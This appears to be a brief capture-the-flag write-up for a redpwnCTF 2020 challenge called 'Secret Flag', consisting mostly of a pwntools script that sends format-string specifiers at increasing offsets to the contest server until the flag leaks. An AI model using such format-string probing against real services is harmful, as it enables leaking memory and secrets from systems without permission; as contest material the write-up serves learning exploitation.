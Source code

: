 # Secret Flag
The flag is stored somewhere on the flag, so I just iterated through different offsets until I found it.

```python
from pwn import *

for x in range(10):
    p = remote('2020.redpwnc.tf', 31826, level='error')
    p.clean(0.2)

    p.sendline(f'%{x}$s')

    resp = p.clean().decode('latin-1')

    if 'flag' in resp:
        print(resp)
        break
```